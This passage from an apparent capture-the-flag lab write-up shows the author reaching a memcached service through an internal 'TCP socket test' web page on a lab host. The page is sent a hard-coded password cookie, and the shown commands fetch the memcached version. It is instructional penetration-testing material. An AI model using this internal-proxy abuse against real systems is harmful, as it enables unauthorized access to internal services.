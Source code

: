 I’ll also make use of this [memcached cheat sheet](https://lzone.de/cheat-sheet/memcached) to for most of the commands I’ll run.

#### Get Version

I will have to interact with this port through the port 8080 website. Still, I can run commands. I’ll start by getting the version:

```

root@kali# curl -s 'http://10.10.10.86:8080/socket?port=11211&cmd=version' -H "Cookie: password=secret"
<!DOCTYPE html>
<html lang="en">
<head>
<title>Internal Dev</title>
        <meta charset="UTF-8">
        <meta name="viewport" content="initial-scale=1, maximum-scale=1, user-scalable=no, width=device-width">
</head>
<body>
<div class="container wrapper">

<p>Status of cache engine: Online</p>
<h4>TCP socket test</h4>
<form action="/socket">
<input type="text" name="port" placeholder="TCP port"></input>
<input type="text" name="cmd" placeholder="Line to send..."></input>
<input type="submit" value="Submit"</input>
</form>

<p>Output</p>
<pre>
VERSION 1.4.25 Ubuntu

</pre>

</div>
</body>
</html>

```

Based on [Ubuntu’s packaging site](https://launchpad.net/ubuntu/+source/memcached/1.4.25-2ubuntu1.4), I’m likely dealing with an Ubuntu Xenial host.

I’ll also note that the output I really care about is between the `<pre>` and `</pre>` tags. With `curl`, I’ll pipe my output into `sed -n '/pre/{:a;n;/pre/b;p;ba}'`, which will give me just everything between the `pre` tags.

```

root@kali# curl -s 'http://10.10.10.86:8080/socket?port=11211&cmd=version' -H "Cookie: password=secret" | sed -n '/pre/{:a;n;/pre/b;p;ba}'
VERSION 1.4.25 Ubuntu

```
